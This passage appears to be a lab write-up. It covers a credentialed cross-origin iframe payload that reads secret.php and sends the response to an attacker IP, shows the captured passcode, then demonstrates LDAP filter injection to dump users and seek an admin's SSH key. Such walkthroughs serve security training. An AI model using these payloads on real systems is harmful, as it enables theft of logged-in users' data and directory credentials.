 Let's do the iframe as it will be slightly more realistic than a file. We host an iframe in a malicious page and wait for the victim to browse it. An example could be:
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('GET','http://demo.ine.local/secret.php',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='http://192.64.78.2/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```
Upon visiting, the iframe will throw a 404 not found, but we will receive the encoded webpage on our webserver:
```bash
%3C!DOCTYPE%20html%3E%0A%3Chtml%3E%0A%3Chead%3E%0A%20%20%3Cmeta%20charset%3D%22utf-8%22%3E%0A%20%20%3Ctitle%3ESecret!%3C%2Ftitle%3E%0A%20%20%3Cmeta%20http-equiv%3D%22X-UA-Compatible%22%20content%3D%22IE%3Dedge%22%3E%0A%20%20%3Cmeta%20name%3D%22viewport%22%20content%3D%22width%3Ddevice-width%2C%20initial-scale%3D1%22%3E%0A%20%20%3Clink%20href%3D%22%2Fcss%2Ftailwind.min.css%22%20rel%3D%22stylesheet%22%3E%0A%3C%2Fhead%3E%0A%3Cbody%20class%3D%22h-screen%20overflow-hidden%20flex%20flex-col%20items-center%20justify-center%22%20style%3D%22background%3A%20%23edf2f7%3B%22%3E%0A%20%20%3Cdiv%20class%3D%22my-4%20text-2xl%22%3E%0A%20%20%20%20This%20is%20highly%20confidential%20passcode%3A%205478a44e68%0A%20%20%3C%2Fdiv%3E%0A%20%20%3Ca%20class%3D%22mt-8%20text-lg%22%20href%3D%22%2Flogout.php%22%3E%0A%20%20%20%20Log%20Out%0A%20%20%3C%2Fa%3E%0A%3C%2Fbody%3E%0A%3C%2Fhtml%3E%0A
```
Which decoded becomes:
```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="utf-8">
  <title>Secret!</title>
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link href="/css/tailwind.min.css" rel="stylesheet">
</head>
<body class="h-screen overflow-hidden flex flex-col items-center justify-center" style="background: #edf2f7;">
  <div class="my-4 text-2xl">
    This is highly confidential passcode: 5478a44e68
  </div>
  <a class="mt-8 text-lg" href="/logout.php">
    Log Out
  </a>
</body>
</html>
```
# Attacking LDAP
Browsing at http://demo.ine.local:9090/ we are presented with the website. Looking at the stock control function, we see that we can retrieve fruits using this url: http://demo.ine.local:9090/fruit_or_veg?objectClass=fruits. It seems like we can control the objectClass parameter. 
Entering: 
```bash
http://demo.ine.local:9090/fruit_or_veg?objectClass=*))(&objectClass=void
```
We are able to retrieve the full list of objects, which includes also vegs and users and admins. The user david has "Administrator" in its description which is interesting for us. Looking at the objectClass posixAccount, we are able to extract the users which are also present on the system. We are told when browsing the application that the admins (David) store their SSH key in the database. So, by a google search of "ldap posixaccount ssh key", we get that the name we are looking for is 'sshPublicKey' and as such we can retrieve it with:
```bash
```